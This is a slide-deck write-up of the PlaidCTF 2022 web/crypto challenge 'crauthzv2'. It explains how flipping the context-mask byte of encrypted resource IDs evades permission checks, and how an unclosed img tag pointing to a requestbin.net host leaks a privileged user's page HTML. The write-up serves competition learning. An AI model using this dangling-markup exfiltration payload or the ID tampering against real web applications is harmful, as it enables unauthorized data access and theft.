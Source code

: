 ```yaml
---
marp: true
paginate: true
header: 'crauthzv2 PlaidCTF 2022'
footer: 'Dosenpfand'
---
```


# crauthzv2 PlaidCTF 2022

---

## Disclaimer
- Not solved during the CTF
- Challenge author published intended solution and parts of the source code

---

## Task Description
- Categories: web, crypto
- Link to web app (job board), no source code
- From the task description
    > [...] What if we used cryptography to do our permissions checks instead?
    > Hint: What control do you have over the values pointed to by the mask?
- From a job posting on the web app
    > [...] Share your resume on THE GAUNTLET with "jobs" for consideration. We'll scrape any images in your resume; [...]

---

### Analysis - CRID I
- Typical link:
    ```
    http://crauthz.chal.pwni.ng/view?id=crid%3ABZLBNnxQ92%2BcAS1SHrCQ5a86EJTMHkTRUIroXYWk080r
    ```
- Constantly changing
- Format: `url_encode("crid:" + base64_encode(data))`
- `data` always starts with `5` or `7`

---

### Analysis - CRID II
- Error when modifying CRID
- starting with 5:
    > Error: Invalid ID (with parsed mask ['user_id', 'purpose']) for user id "1158", csrf "f447f3c65b49aa05957aca523c1e1828", purpose "view"

- 7: `['user_id', 'csrf', 'purpose'])`
- 3: `['user_id', 'csrf']`
- 6: `['csrf', 'purpose']`

---

### Analysis - CRID III
- 1st byte of `crid` is `mask`
- Changing the mask and adapting the `csrf` cookie accordringly validates
- E.g. Change from `5` to `3` and set `csrf` cookie to user id.

---

### Analysis - Image Sharing
- Sharing an unclosed HTML `img` tag
    ```
    <img src="http://requestbin.net/r/5vn3gc7l?q=
    ```
- We get some HTML succeeding the tag
    ```
    <b>Internal listing - security engineer</b>
    (Job) by jobs
    <a href=/p/unpin_listing?listing_id=crid:Bc6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ==
    &ret=crid:BwK08K/aJC4FC+b5LbL9eAi/47baWgNCkVU7uijNPSj0
    >Unpin</
    ```

---

### Solution I
1. Share resume with user `jobs` with unclosed image tag
2. Get an `unpin` URL for internal job listing
3. Modify its `crid`'s 1st byte from `5 = ['user_id', 'purpose']` to `6 = ['csrf', 'purpose']`
4. Use it to pin the listing: Request `/pin_listing?listing_id=crid%3A_MODIFIED_CRID_1` with cookie `csrf=pin_listing`

---

### Solution II
5. Pinned listing not viewable due to permission checks, but we have a `unpin` `crid` now
6. Change it from `5 = ['user_id', 'purpose']` to `['user_id', 'csrf']`
7.  Use it to share the listing with our user: Request `/share_listing?id=crid%3A_MODIFIED_CRID_2&other=our_user` with cookie `csrf=pin_listing`
8. View the internal listing, flag is in the comments

---

### References
- Intended solution: https://gist.github.com/mserrano/44031a01afb53f98536af17f6ba9eedd
- Writeup: https://github.com/Dosenpfand/ctf-writeups/blob/master/writeup_2022_PlaidCTF_crauthzv2.md

---

### Implementation

---

#### CRID

```
+--------------+
| "crid:"      |
+--------------+---\
| context_mask |   |
+--------------+   |
| nonce        |   |
+--------------+   + base64 encoded
| encrypt(id)  |   |
+--------------+   |
| tag          |   |
+--------------+---/
```

---

#### Mask

```
+---------+---------+------+---------+
| 7 ... 3 | 2       | 1    | 0       |
+---------+---------+------+---------+
| X       | PURPOSE | CSRF | USER_ID |
+---------+---------+------+---------+
```

---

#### Associated Data

```
+---------+
| "id"    |
+---------+---\
| user_id |   |
+---------+   |
| csrf    |   + depending on context mask
+---------+   |
| route   |   |
+---------+---/
```
